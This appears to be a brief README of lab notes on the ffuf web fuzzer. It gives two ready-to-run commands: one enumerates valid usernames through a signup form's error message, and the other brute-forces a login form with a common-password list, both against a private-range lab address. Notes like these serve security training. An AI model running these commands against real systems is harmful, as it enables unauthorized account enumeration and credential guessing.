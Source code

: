 [![Build Status](https://travis-ci.org/joemccann/dillinger.svg?branch=master)](https://travis-ci.org/joemccann/dillinger)

# fuff
<hr/>


## username enumeration

http://10.10.13.16/customers/signup

```sh
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.13.16/customers/signup -mr "username already exists"
```

## brute force
http://10.10.13.16/customers/login

```sh
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.13.16/customers/login -fc 200
```